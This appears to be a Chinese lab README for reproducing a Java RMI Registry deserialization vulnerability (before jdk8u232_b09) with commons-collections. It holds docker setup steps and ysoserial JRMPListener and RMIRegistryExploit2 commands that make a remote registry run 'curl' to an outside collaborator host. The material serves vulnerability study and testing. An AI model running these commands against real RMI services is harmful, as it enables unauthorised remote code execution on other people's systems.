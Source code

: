# Java RMI Registry 反序列化漏洞(<jdk8u232_b09)

Java Remote Method Invocation 用于在Java中进行远程调用。RMI存在远程bind的功能(虽然大多数情况不允许远程bind)，在bind过程中，伪造Registry接收到的序列化数据(实现了Remote接口或动态代理了实现了Remote接口的对象)，使Registry在对数据进行反序列化时触发相应的利用链(环境用的是commons-collections:3.2.1).

自jdk8u121起，Registry对反序列化的类做了白名单限制

```java
if (String.class == clazz
        || java.lang.Number.class.isAssignableFrom(clazz)
        || Remote.class.isAssignableFrom(clazz)
        || java.lang.reflect.Proxy.class.isAssignableFrom(clazz)
        || UnicastRef.class.isAssignableFrom(clazz)
        || RMIClientSocketFactory.class.isAssignableFrom(clazz)
        || RMIServerSocketFactory.class.isAssignableFrom(clazz)
        || java.rmi.activation.ActivationID.class.isAssignableFrom(clazz)
        || java.rmi.server.UID.class.isAssignableFrom(clazz)) {
    return ObjectInputFilter.Status.ALLOWED;
} else {
    return ObjectInputFilter.Status.REJECTED;
}
```

我们需要在上面的几个白名单里面找到相应的可利用的类
具体原理见[浅谈RMI Registry反序列化问题](http://blog.0kami.cn/2020/02/06/rmi-registry-security-problem/)

## 漏洞环境

执行如下命令编译及启动RMI Registry和服务器：

```
docker-compose build
docker-compose run -e RMIIP=your-ip -p 1099:1099 rmi
```

其中，`your-ip`是服务器IP，客户端会根据这个IP来连接服务器。

环境启动后，RMI Registry监听在1099端口。

## 漏洞复现

通过[ysoserial](https://github.com/wh1t3p1g/ysoserial)的exploit包中的RMIRegistryExploit2或者3进行攻击
```bash
// 开启JRMPListener
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 8888 CommonsCollections6 "curl http://xxxxx.burpcollaborator.net"
// 发起攻击
java -cp target/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit2 192.168.31.88 1099 jrmphost 8888
```

![image-20200206135822418](assets/README/image-20200206135822418.png)

Registry会返回报错，这个没关系正常，命令会正常执行。